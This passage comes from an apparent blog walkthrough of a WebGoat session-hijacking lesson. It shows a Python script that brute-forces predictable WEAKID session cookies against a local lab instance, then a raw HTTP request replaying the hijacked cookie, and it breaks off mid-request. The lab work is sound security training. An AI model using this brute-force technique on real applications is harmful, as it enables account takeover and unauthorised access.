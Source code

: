 			cookies = dict(
				WEAKID=reformed_id_guess,
				JSESSIONID=self.current_webgoat_cookie,
				acopendivids="swingset,jotto,phpbb2,redmine",
				acgroupswithpersist="nada"
			)
			print ("[*] Attempt {} | Cookie: {}".format(attempts, reformed_id_guess))
			r = requests.post(self.attack_url, params=params,headers=self.headers,cookies=cookies)
			if r.status_code == 200:
				if "invalid" not in r.text.lower():
					print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
					print ("[+] SUCCESS!")
					print ("[+] Cookie Value: {}".format(reformed_id_guess))
					print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
					logged_in = True
					sys.exit(0)
				else:
					login_time_guess -= 1

		if not logged_in:
			print ("Failed to find session login")

def main():
	attack_url = 'http://192.168.56.101/WebGoat/attack?Screen=224&menu=1800'
	current_webgoat_cookie = "F6E740AFB0D99B26D271E23C39F10F78"
	session_hijack = SessionHijack(attack_url, current_webgoat_cookie)
	session_hijack.find_open_session()
	session_hijack.brute_force_cookie()

if __name__ == "__main__":
	main()
{% endhighlight %}

Alright, looks good. Let's give it a shot and see if we can jack a session:

<img src="{{ site.baseurl }}/images/2017-02-01-webgoat_part_18/cookie-brute-force.jpg">

Awesome. And when we send a request and substitute our ```WEAKID``` values for the jacked session cookie:

<hr>
POST /WebGoat/attack?Screen=224&menu=1800 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=224&menu=1800
Cookie: WEAKID=```19720-1485917613225```; JSESSIONID=F6E740AFB0D99B26D271E23C39F10F78; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
